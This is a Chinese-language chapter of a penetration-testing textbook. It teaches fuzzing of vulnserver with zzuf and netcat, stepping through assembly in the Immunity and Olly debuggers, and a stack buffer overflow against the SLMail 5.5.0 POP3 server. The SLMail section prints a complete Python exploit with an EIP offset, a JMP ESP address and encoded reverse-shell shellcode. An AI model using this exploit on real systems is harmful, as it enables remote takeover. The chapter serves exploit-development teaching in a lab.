








# 第十二章：逆向工程 Windows 应用程序

在本章中，我们将看看如何对 Windows 应用程序进行逆向工程。在本章中，我们将涵盖以下主题：

+   Fuzzing Windows 应用程序

+   Windows 和汇编

+   Windows 和堆缓冲区溢出

+   Windows 和堆缓冲区溢出

+   Windows 中的格式化字符串漏洞

# 调试器

让我们来看看我们将在本章中涵盖的 Windows 调试器：

+   **Immunity debugger**：这是一个在 Windows 环境中运行并调试 Windows 应用程序的最著名的调试器之一。它可以从[`www.immunityinc.com/products/debugger/`](https://www.immunityinc.com/products/debugger/)下载，并且作为可执行文件直接运行：


+   **Olly debugger**：可以直接从[`www.ollydbg.de/`](http://www.ollydbg.de/)下载 Olly 调试器。


# Fuzzing Windows 应用程序

正如我们在上一章中讨论的那样，Fuzzing 是一种用于发现应用程序中的错误的技术，当应用程序遇到未预料到的输入时，会导致应用程序崩溃。

为了开始这个练习，让我们设置 VirtualBox，并使用 Windows 作为操作系统。在实验室的 Windows 7 机器上，让我们继续安装名为**vulnserver**的易受攻击的软件。如果你在 Google 上搜索`vulnserver download`，你会得到易受攻击的服务器的链接。

现在让我们在 VirtualBox 中加载`vulnserver`并运行它，如下所示：


现在让我们尝试将 Linux 主机连接到 Windows 机器，以连接到`vul`服务器。

我们可以用于 Fuzzing 的工具是 zzuf，它可以与基于 Linux 的系统一起使用。要检查工具是否可用，请运行以下命令：



让我们看看当我们输入一个长字符串时是否会崩溃。我们可以通过将`aaaaaa`字符串传递给代码来检查这一点，并且可以看到它不会崩溃。另一种方法是运行`help`命令，我们传递`help`命令并返回到终端，这样我们可以递归地在循环中执行它。如下所示：


应该注意，如果我们希望使用`echo`执行命令，我们可以将该命令放在反引号`<command>`中，该命令的输出将附加到`echo`打印字符串，例如：`echo 'hello' `python -c 'print "a"*5'``。

我们将使用这种技术来崩溃目标服务器，因为执行的命令的输出将附加到`echo`的输出，并且`echo`的输出通过 Netcat 作为输入发送到服务器。我们将执行以下代码，看看易受攻击的服务器是否会因为一个非常长的字符串而崩溃：


我们可以清楚地看到，在执行上述命令时，程序打印出`UNKNOWN COMMAND`。基本上，这里发生的是`aaaaaa`被分割成多行，并且输入被发送到 Netcat，如下所示：`echo hello aaaaaaaaaaaaaaaaaaa | nc …`。在下一行，剩下的`aaaa`被打印出来，这就引发了`UNKNOWN COMMAND`错误。

让我们尝试将打印输出重定向到一些文本文件，然后使用`zzuf`来实际崩溃或模糊目标易受攻击的软件。

Zzuf 是一个工具，它以大字符串作为输入，例如`aaaaaaaaaaaaaaaaaaaaaaaaa`。它在字符串的各个位置随机放置特殊字符，并产生输出，例如`?aaaa@??aaaaaaaaaaa$$`。我们可以指定百分比来修改输入的多少，例如：


让我们使用生成的文件`fuzz.txt`和 zzuf，看看结果如何：


我们可以按照以下方式指定百分比：


请注意，`vul`服务器的`HELP`命令不容易受攻击，而是`GMON ./:/`命令。我们不希望 zzuf 工具更改命令的`GMON ./:/`部分，因此我们使用`zzuf`指定`-b`（字节选项）告诉它跳过初始的 12 个字节，如下面的屏幕截图所示：


让我们尝试将此文件内容作为输入提供给`vul`服务器，看看会发生什么：


可以看到，zzuf 工具生成的输出使`vul`服务器崩溃了。请注意，zzuf 工具生成的特殊字符是常用于模糊测试的众所周知的攻击有效载荷字符：


我们现在将看到如何使用脚本来尝试使`vul`服务器崩溃。我们还将在 Windows 机器上使用 Olly 调试器，以查看代码在哪里中断。

以管理员身份启动 Olly 调试器，如下所示：


我们现在将使用 Olly 调试器附加正在运行的服务器。转到**文件**|**附加**。这将打开所有正在运行的进程。我们必须转到 vulnserver 并将其附加。一旦单击**附加**，我们会得到以下内容：


现在，让我们回到 Linux 机器并启动我们创建的脚本：



当我们执行`python fuzz.py`命令时，Python 控制台上没有任何输出。

然而，在 Olly 调试器中附加的进程中，右下角显示一个黄色消息，上面写着**暂停**，这意味着附加的进程/服务器的执行已暂停：


让我们点击播放按钮。这会执行一些代码，并在另一个断点处暂停：


应该注意的是，在屏幕底部写着`Access violation`，写入位置为`017Dxxxx`。这意味着遇到了异常，程序崩溃了：



# Windows 和汇编

在本节中，我们将学习汇编语言。我们的目标是将 C 代码转换为汇编语言，并查看发生了什么。

以下是我们将加载和使用的示例 C 代码，以便学习汇编语言：


我们将在 immunity 调试器中运行这段代码，将其编译为名为`Bufferoverflow.exe`的文件。让我们首先用 immunity 调试器打开它：


请注意，右上角有一个**寄存器**部分。第一个寄存器`EAX`是累加器。在计算机的 CPU 中，累加器是存储中间算术和逻辑结果的寄存器。在左上角，我们有实际的汇编代码，而在左下角，我们得到程序使用的内存转储。右下角包含我们正在检查的程序的堆栈区域。

如果我们滚动到位置`00401290`，我们可以看到`PUSH`命令。我们还可以看到 ASCII 字符串`Functionfunction`，然后是整数十六进制值。这是逆序的，因为这里的处理器是使用小端记法的英特尔处理器，即低序字节先出现：


前面的屏幕截图显示了我们的`functionFunction`函数的堆栈/代码部分，该部分的每个语句代表我们原始代码的一个语句。

如果我们再往下滚动一点，我们将看到实际的主方法和从那里进行的函数调用。如下所示。在突出显示的区域是对实际`functionFunction`函数的函数调用：


主函数返回`0`，这正如汇编级语言所示，我们将`0`移动到 EAX 寄存器中。同样，在上一张截图中，我们将值`1`移动到 EAX 中。

现在让我们转到**调试**并点击**参数**。从这里，我们将向汇编代码提供命令行参数，以便我们可以在调试器中运行而不会出现任何错误：


然后，我们需要设置某些断点，以更彻底地了解调试器、程序控制和顺序流。我们将在主方法的开头设置一个断点，如下所示：


断点在以下截图中突出显示：


请注意，一旦我们运行应用程序，当它遇到这一行时，代码实际上会停止。这就是所谓的断点：


在屏幕右下方，我们看到的区域是堆栈区域。正如我们所知，每个方法都有一个专用的执行区域，其中存储所有本地参数并执行代码。这就是我们定义为堆栈的区域。堆栈的第一条语句指向程序控制在成功执行整个方法块后应该返回的位置。请注意，屏幕顶部有四个选项，分别是**跨过**、**跨入**、**跟踪进入**和**跟踪覆盖**。随着我们的进展，我们将探索这些选项。让我们继续调用 step into，并看看堆栈和调试器会发生什么：


调用 step into 函数实际上将控制权转移到调试器上的下一行。在这种情况下，不同的值被添加到程序变量中。请注意，以下一行将调用`functionFunction`函数：


请注意，从主函数到`functionFunction`函数的函数调用将发生在主函数的`004012EA`内存地址处。当调用函数时，分配给`functionFunction`的堆栈必须包含返回地址，以便一旦完成执行，它就知道自己应该返回到哪里：



可以看到右侧的 EIP 寄存器保存着`00401EA`地址。请注意，在右下方，语句本身的地址是堆栈上的`0060FD0`。让我们点击下一步，看看会发生什么：



可以看到，一旦调用函数，它的堆栈就会更新，并且指示代码在执行后应该返回到`004012EF`地址。`004012EF`地址是主函数`functionFunction`函数的下一条指令地址。由于 IP 包含下一条要执行的指令的地址，它现在包含`00401290`地址，这是`Functionfunction`函数的起始地址。一旦完成执行，堆栈顶部的内容将被弹出（`004012EF`），IP 将被更新为此地址，以便程序执行从上次停止的地方恢复。

点击两次下一步后，我们看到在我们的`functionFunction`方法中将整数值分配给变量的第一条语句将被执行。最后，当我们达到`functionFunction`方法的返回语句或结束时，我们将看到堆栈顶部将包含下面屏幕截图中显示的返回地址：



我们可以点击下一步直到程序退出主方法。这是程序在正常情况下执行的方式，我们称之为行为执行。在下一节中，我们将看到如何使程序行为异常。

让我们看看当我们通过提供超出预期长度的参数来溢出缓冲区时，汇编语言的代码级别会发生什么。我们将在以下代码中添加超过九个字符：


现在我们将保持在主方法中的断点，就像之前一样。当我们运行代码时，我们将到达断点，如下所示：


在下一行中，我们将把值`112233`复制到局部变量中。然后我们将调用`Functionfunction`函数，在这里`bufferoverflow`实际发生，当我们对大小为`10`的本地缓冲区执行`strcpy`时：


如前面的屏幕截图所示，我们传递的字符串被放置在寄存器中，并将传递给`functionFunction`。突出显示行后的行是实际的函数调用：


可以看到在突出显示的行中，正在执行的操作是`strcpy(Localstring2,param)`，这意味着 EAX 寄存器的值将被移动到位置`SS:[EBP +8]`。一旦执行前面的命令，我们将注意到我们给出的大值将加载到堆栈中。我们可以在下面的屏幕截图的右下角看到这一点：


现在，将执行的下一行将是当前突出显示的`strcpy`函数之后的`strcpy`函数。我们可以在右下角看到`strcpy`函数的堆栈：


在`strcpy`函数中有一些缓冲区和内存位置。当我们将值写入长度为 10 的缓冲区时，缓冲区溢出，剩余的值会溢出并写入堆栈的其他内存位置。换句话说，堆栈中的其他内存位置将被溢出的内容覆盖。在这种情况下，一旦执行完成，包含堆栈返回地址的内存位置将被覆盖，因此代码将以异常结束。这实际上是发生在幕后的情况，如下面的屏幕截图所示。在屏幕截图的底部，我们可以看到访问冲突异常：



# 在 Windows 中利用缓冲区溢出

在 SLMail 5.5.0 邮件服务器软件中存在已知的缓冲区溢出漏洞。让我们从以下网址下载应用程序（https://slmail.software.informer.com/5.5/）并通过双击`exe`安装程序在 Windows 中安装它。安装完成后，在 Windows 7 虚拟机中运行它，如下所示：


现在，让我们将我们运行的程序附加到一个 immunity 调试器，并使用一个简单的 Python 模糊器来使程序崩溃，如下所示：


以下屏幕截图显示了一旦我们点击**附加**后加载的代码：


让我们使用 Python 编写的简单模糊器来尝试破坏这段代码：


现在，让我们运行代码，看看它是如何破坏电子邮件应用程序的，以及在崩溃时缓冲区的值是多少：


可以看到，在第`2700`和`2900`字节之间发生了访问冲突异常。在这一点上，EIP 指令寄存器的值被传递的字符串`A`覆盖，其十六进制值为`41414141`。

为了找出`2900`字节内的有效负载的确切位置，我们将使用 Metasploit 的`generate.rb`模块，如下所示：


让我们将这个唯一生成的字符串放在一段 Python 代码中，以便为我们重新运行利用程序，以便我们可以看到崩溃时 EIP 内的唯一值：


让我们重新启动 Windows 中的服务，并再次将其附加到调试器上。最后，我们将运行我们的 Python 代码来利用它，如下所示：



可以清楚地看到，在崩溃时，EIP 寄存器内的值为`39694438`。这将是告诉我们有效负载偏移量的地址，可以按照这里所示进行计算：


可以看到，导致崩溃的确切偏移量是`2606`。在崩溃时，所有传递的值都存储在 ESP 寄存器中，这使得 ESP 成为保存我们有效负载的潜在候选者。如果我们发送多达 2600 字节的有效负载，然后尝试在 EIP 中注入一条指令，使其跳转到 ESP，那么将执行有效负载。有两种方法可以做到这一点。我们知道 EIP 保存着要执行的下一条指令的地址，正如所见，崩溃时 ESP 寄存器的地址为`01C8A128`。直觉上会想到的是简单地在 2600 字节之后放置这个地址，但由于地址空间布局随机化（ASLR），这是一种用于操作系统的内存保护过程，通过使系统可执行文件加载到内存中的位置随机化，防范缓冲区溢出攻击，这种直接的技术将不起作用。

相反，让我们寻找一个内存地址，其中将有一个指令，比如`JMP ESP`。由于这个位置在堆栈之外，每当程序崩溃时，它都不会受到 ASLR 的影响。我们将使用 mona 脚本，它作为 immunity 调试器的 Python 模块随附，并用于在整个 DLL 进程中搜索任何指令，这在我们的情况下将是`jmp esp`的十六进制等价物。mona 脚本可以从[`github.com/corelan/mona`](https://github.com/corelan/mona)下载，并可以直接放置在 Windows 的以下路径中：`C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`。

让我们使用 Metasploit 的 Ruby 脚本计算`jmp esp`的十六进制等价物，如下所示：


因此，我们将在 immunity 调试器和 mona 脚本中搜索`\xff\xe4`，以找到`jmp`位置，如下所示：


我们得到了很多命中，但让我们选择第一个，即`0x5f4a358f`。下一步将是生成利用代码，在我们的机器上给我们一个反向 shell，并将该利用代码放在一个自定义的 Python 脚本中，以将有效负载发送到服务器。应当注意，在生成利用代码时，我们将对其进行编码并转义某些不良字符，以确保其正常工作：


有了前面生成的有效负载，让我们创建一个 Python 脚本来引发利用。我们将使用之前发现的`jmp esp`的位置，通过`mona`脚本。还应该注意，由于有效负载已编码，将用于解码的几个字节，还将用于填充的几个字节：

```py
#!/usr/bin/python    
import socket        
buffer=["A"]    
counter=100
buf =  ""
buf += "\xd9\xc8\xbd\xad\x9f\x5d\x89\xd9\x74\x24\xf4\x5a\x33"
buf += "\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x6f\x9b\xbf"
buf += "\x7c\x93\x4c\xbd\x7f\x6b\x8d\xa2\xf6\x8e\xbc\xe2\x6d"
buf += "\xdb\xef\xd2\xe6\x89\x03\x98\xab\x39\x97\xec\x63\x4e"
buf += "\x10\x5a\x52\x61\xa1\xf7\xa6\xe0\x21\x0a\xfb\xc2\x18"
buf += "\xc5\x0e\x03\x5c\x38\xe2\x51\x35\x36\x51\x45\x32\x02"
buf += "\x6a\xee\x08\x82\xea\x13\xd8\xa5\xdb\x82\x52\xfc\xfb"
buf += "\x25\xb6\x74\xb2\x3d\xdb\xb1\x0c\xb6\x2f\x4d\x8f\x1e"
buf += "\x7e\xae\x3c\x5f\x4e\x5d\x3c\x98\x69\xbe\x4b\xd0\x89"
buf += "\x43\x4c\x27\xf3\x9f\xd9\xb3\x53\x6b\x79\x1f\x65\xb8"
buf += "\x1c\xd4\x69\x75\x6a\xb2\x6d\x88\xbf\xc9\x8a\x01\x3e"
buf += "\x1d\x1b\x51\x65\xb9\x47\x01\x04\x98\x2d\xe4\x39\xfa"
buf += "\x8d\x59\x9c\x71\x23\x8d\xad\xd8\x2c\x62\x9c\xe2\xac"
buf += "\xec\x97\x91\x9e\xb3\x03\x3d\x93\x3c\x8a\xba\xd4\x16"
buf += "\x6a\x54\x2b\x99\x8b\x7d\xe8\xcd\xdb\x15\xd9\x6d\xb0"
buf += "\xe5\xe6\xbb\x17\xb5\x48\x14\xd8\x65\x29\xc4\xb0\x6f"
buf += "\xa6\x3b\xa0\x90\x6c\x54\x4b\x6b\xe7\x9b\x24\x89\x67"
buf += "\x73\x37\x6d\x99\xd8\xbe\x8b\xf3\xf0\x96\x04\x6c\x68"
buf += "\xb3\xde\x0d\x75\x69\x9b\x0e\xfd\x9e\x5c\xc0\xf6\xeb"
buf += "\x4e\xb5\xf6\xa1\x2c\x10\x08\x1c\x58\xfe\x9b\xfb\x98"
buf += "\x89\x87\x53\xcf\xde\x76\xaa\x85\xf2\x21\x04\xbb\x0e"
buf += "\xb7\x6f\x7f\xd5\x04\x71\x7e\x98\x31\x55\x90\x64\xb9"
buf += "\xd1\xc4\x38\xec\x8f\xb2\xfe\x46\x7e\x6c\xa9\x35\x28"
buf += "\xf8\x2c\x76\xeb\x7e\x31\x53\x9d\x9e\x80\x0a\xd8\xa1"
buf += "\x2d\xdb\xec\xda\x53\x7b\x12\x31\xd0\x8b\x59\x1b\x71"
buf += "\x04\x04\xce\xc3\x49\xb7\x25\x07\x74\x34\xcf\xf8\x83"
buf += "\x24\xba\xfd\xc8\xe2\x57\x8c\x41\x87\x57\x23\x61\x82"
buffer='A'*2606 + '\x8f\x35\x4a\x5f' + "\x90"*8 +buf

if 1:    
   print"Fuzzing PASS with %s bytes" %    len(string)    
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)    
   connect=s.connect(('192.168.250.158',110))    
   data=s.recv(1024)    
   s.send('USER root \r\n')        
   data=s.recv(1024)
   print str(data)    
   s.send('PASS    ' + buffer + '\r\n')    
   #data=s.recv(1024)
   #print str(data)    
   print "done"
   #s.send('QUIT\r\n')        
   s.close()    

```

现在，当我们将服务或进程的运行实例附加到我们的调试器并执行我们创建的脚本时，我们就可以从具有`bufferoverflow`的受害者机器获得反向 shell。如图所示：


这就是我们如何利用 Windows 中的缓冲区溢出漏洞。

如果我们继续在本地 Windows 环境中编译程序（在上一章的堆缓冲区溢出部分中给出），并使用一个长参数运行它，我们就可以利用 Windows 中的堆缓冲区溢出。

# 总结

我们在这里展示了与上一章相同的步骤，但在 Windows 环境中。 Windows 和 Linux 环境之间的概念基本相同，但堆栈和寄存器的实现可能会有所不同。因此，重要的是要熟练掌握两种环境中的利用。在下一章中，我们将开发 Python 和 Ruby 中的利用以扩展 Metasploit 框架的功能。

# 问题

1.  我们如何自动化利用 Windows 中的缓冲区溢出漏洞的过程？

1.  我们可以采取什么措施来避免操作系统施加的高级保护，例如在 Windows 中禁用堆栈上的代码执行？

1.  为什么 Windows 和 Red Hat 中的寄存器不同？

# 进一步阅读

+   堆栈缓冲区溢出 SLmail：[`www.exploit-db.com/exploits/638/`](https://www.exploit-db.com/exploits/638/)

+   堆缓冲区溢出：[`www.win.tue.nl/~aeb/Windows/hh/hh-11.html`](https://www.win.tue.nl/~aeb/Windows/hh/hh-11.html)

+   字符串格式漏洞：[`null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/`](https://null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/)
